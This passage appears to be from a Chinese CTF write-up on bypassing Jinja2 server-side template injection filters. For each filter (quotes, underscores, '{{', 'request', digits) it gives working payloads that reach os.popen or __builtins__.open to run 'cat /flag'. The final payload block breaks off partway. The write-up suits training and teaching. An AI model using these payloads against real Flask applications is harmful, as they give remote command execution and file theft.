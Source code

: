 
cookie:a=__globals__;b=cat /flag
```



^
## **过滤OS**
过滤了单双引号、args、中括号l、下划线、os
还是传参绕过。
```
?name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=__globals__&b=os&c=cat /flag
```


^
## **过滤了{{**
用{% 继续传参绕过
```
?name={%print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read() %}&a=__globals__&b=os&c=cat /flag
```



^
## **过滤了request**
替换字符
```
lipsum.__globals__['__builtins__'].open('/flag').read()
# 在__builtins__里面拿到chr，同样可以很方便的构造字符
```
```
?name=
{% set a=(()|select|string|list).pop(24) %}
{
   % set globals=(a,a,dict(globals=1)|join,a,a)|join %}
{
   % set init=(a,a,dict(init=1)|join,a,a)|join %}
{
   % set builtins=(a,a,dict(builtins=1)|join,a,a)|join %}
{
   % set a=(lipsum|attr(globals)).get(builtins) %}
{
   % set chr=a.chr %}
{
   % print a.open(chr(47)~chr(102)~chr(108)~chr(97)~chr(103)).read() %}

```


^
## **过滤数字**
```
{%set num=dict(aaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set numm=dict(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=a)|join|count%}
{%set x=(()|select|string|list).pop(num)%}
{%set glob = (x,x,dict(globals=a)|join,x,x)|join %}
{%set builtins=x~x~(dict(builtins=a)|join)~x~x%}
{%set c = dict(chr=a)|join%}
{%set o = dict(o=a,s=a)|join%}
{%set getitem = x~x~(dict(getitem=a)|join)~x~x%}
{%set chr = lipsum|attr(glob)|attr(getitem)(builtins)|attr(getitem)(c)%}
{%set file = chr(numm)~dict(flag=a)|join%}
